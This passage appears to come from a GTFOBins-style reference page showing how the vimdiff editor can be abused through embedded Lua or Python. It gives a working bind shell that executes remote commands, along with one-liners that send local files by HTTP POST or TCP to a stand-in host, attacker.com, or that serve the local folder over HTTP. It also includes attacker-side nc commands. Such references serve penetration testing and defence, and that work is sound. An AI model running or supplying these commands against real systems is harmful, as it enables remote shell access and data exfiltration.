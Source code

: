 ## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
vimdiff -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  while true do
    local r,x=c:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));c:send(b);
  end;c:close();f:close();'
```

## File upload

It can exfiltrate files on the network.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
vimdiff -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
vim.command(":q!")'
```

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.

```
export LPORT=8888
vimdiff -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
vim.command(":q!")'
```

Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
vimdiff -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
  local d=f:read("*a")
  io.close(f);
  local s=require("socket");
  local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  t:send(d);
  t:close();'
```
